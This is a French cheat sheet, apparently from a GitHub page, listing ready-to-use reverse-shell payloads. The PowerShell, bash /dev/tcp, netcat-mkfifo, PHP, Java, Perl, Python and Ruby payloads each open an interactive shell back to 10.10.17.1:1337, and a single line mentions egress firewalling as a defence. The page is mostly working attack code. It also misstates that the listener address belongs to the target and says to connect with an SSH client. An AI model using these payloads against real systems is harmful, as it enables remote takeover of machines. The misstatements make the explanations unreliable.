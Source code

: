 Un shell inversé ou "reverse shell" est un script ou un programme exécutable qui permet un accès shell interactif à un système via une connexion sortante de ce système

Les pirates malveillants utilisent souvent des shells inversés pour envoyer des commandes à un système compromis, et ils peuvent être utilisés à des fins légitimes, telles que l'administration de serveur distant

# Windows Power Shell
Pour les systèmes Windows, un shell inversé peut être créé à l'aide de PowerShell

Exemple de shell PowerShell inversé :
```
$sm=(New-Object Net.Sockets.TCPClient("10.10.17.1",1337)).GetStream();
[byte[]]$bt=0..255|%{0};
while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);
$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));
$sm.Write($st,0,$st.Length)}
```

Ce script établit une connexion shell inverse de la machine cible à la machine de l'attaquant, qui écoute sur le port TCP 1337. L'adresse IP de la machine cible est "10.10.17.1" dans cet exemple

Vous n'avez plus qu'à vous connecter via un client SSH

## Alternative avec HTA
Une autre méthode consiste à utiliser des fichiers HTA avec PowerShell intégré. Par exemple, un shell inversé peut être intégré dans un fichier HTA et exécuté à l'aide de `mshta.exe`

Pour empêcher l'utilisation inverse du shell, vous pouvez imposer un contrôle strict sur les connexions sortantes à l'aide d'un pare-feu et vous assurer que toute activité suspecte est surveillée de près

# Linux bash
Pour envoyer des commandes à un shell inversé sur Linux, vous devez établir un listener sur votre machine locale, puis vous connecter au shell inverse sur la machine cible. 

Voici un exemple de base en utilisant Netcat:
## Établissez un Listener
- Sur votre machine locale, démarrez un listener Netcat pour recevoir la connexion shell inversée : `nc -l -p 1337`
  - Cette commande écoute les connexions entrantes sur le port 1337.

## Envoyer des commandes
- Une fois le shell inversé connecté, vous pouvez envoyer des commandes comme vous le feriez dans une session shell normale
- Pour un shell Bash inversé, vous pouvez utiliser : `bash -i >& /dev/tcp/your_ip/your_port 0>&1`
  - Une fois que le shell inverse se connecte, vous pouvez envoyer des commandes directement au shell
Par exemple, pour vérifier l'utilisateur actuel, vous pouvez taper : `whoami`

# Autres reverse shell
[invicti.com/learn/reverse-shell](https://www.invicti.com/learn/reverse-shell/)
## NetCat
- `ncat -l -p 1337`
- ou `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.17.1 1337 >/tmp/f`
## PHP
`php -r '$sock=fsockopen("10.10.17.1",1337);exec("/bin/sh -i <&3 >&3 2>&3");'`
## Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.17.1/1337;
cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
## PERL
```
perl -e 'use Socket;$i="10.10.17.1";$p=1337;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");
open(STDOUT,">&S");open(STDERR,">&S");
exec("/bin/sh -i");};'
```
### Python
```
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.17.1",1337));
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```
## RUBY
```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.17.1","1337");
while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end';
```
ou
```
ruby -rsocket -e'f=TCPSocket.open("10.0.17.1",1337).to_i;
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```